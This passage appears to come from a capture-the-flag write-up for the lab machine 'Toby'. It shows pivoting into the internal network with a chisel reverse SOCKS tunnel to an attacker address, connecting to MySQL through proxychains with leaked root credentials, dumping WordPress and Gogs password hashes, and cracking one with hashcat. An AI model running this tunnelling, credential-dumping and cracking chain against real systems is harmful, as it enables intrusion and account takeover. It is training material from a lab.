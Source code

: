 from victim machine connect to this proxy server

```
./chisel client 10.10.16.2:8001 R:socks
```

![Screenshot from 2022-04-18 21-47-14](https://user-images.githubusercontent.com/79413473/163838411-79f3891e-1801-486d-b1a3-51a2b2a1e4a0.png)


You have to edit your */etc/proxychains.conf* file to use corrrect proxy that **socks5 127.0.0.1 1080**. Now you can ping and curl docker hosts from your machine. You might have to restart chisel server if getting any error. It took me some trial and error also.

### Extracting passwords from mysql.toby.htb(172.69.0.102)
Now if you remember we have password of DB user **root:OnlyTheBestSecretsGoInShellScripts**. Let's connect to this host using proxychains.

```
proxychains mysql -h mysql.toby.htb -u root -p
```
or 
```
proxychains mysql -h 172.69.0.102 -u root -p
``` 
Enter password and we are in 

![Screenshot from 2022-04-18 22-45-19](https://user-images.githubusercontent.com/79413473/163845953-bbc45cd0-7eac-4640-ae55-b0687d583f8a.png)

From gogs database we can extract **toby-admin** password hash

```
toby-admin@toby.htb: 8a611020ad6c56ffd791bf334d32d32748baae42975259607ce268c274a42958ad581686151fe1bb0b736370c82fa6afebcf
```

From wordpress we have 2 more hashes, `select user_login, user_pass, user_nicename,user_email from wp_users;`

```
+------------+------------------------------------+---------------+---------------------+
| user_login | user_pass                          | user_nicename | user_email          |
+------------+------------------------------------+---------------+---------------------+
| toby       | $P$Bc.z9Qg7LCeVxEK8MxETkfVi7FdXSb0 | toby          | toby@toby.htb       |
| toby-admin | $P$B3xHYCYdc8rgZ6Uyg5kzgmeeLlEMUL0 | toby-admin    | toby-admin@toby.htb |
+------------+------------------------------------+---------------+---------------------+
```

hashcat in no time cracks toby-admin's password with mode phppass(400)

```
$P$B3xHYCYdc8rgZ6Uyg5kzgmeeLlEMUL0:tobykeith1
```

### Getting shell on git docker instance,

Now if you remember in starting i said if we can become admin on **backup.toby.htb** we can execute commands with githooks. Let's login as toby-admin with cracked password. 
Although this step is not necessary i am just showing it for knowledge purpose, there was once a box where you had to get a shell this way.
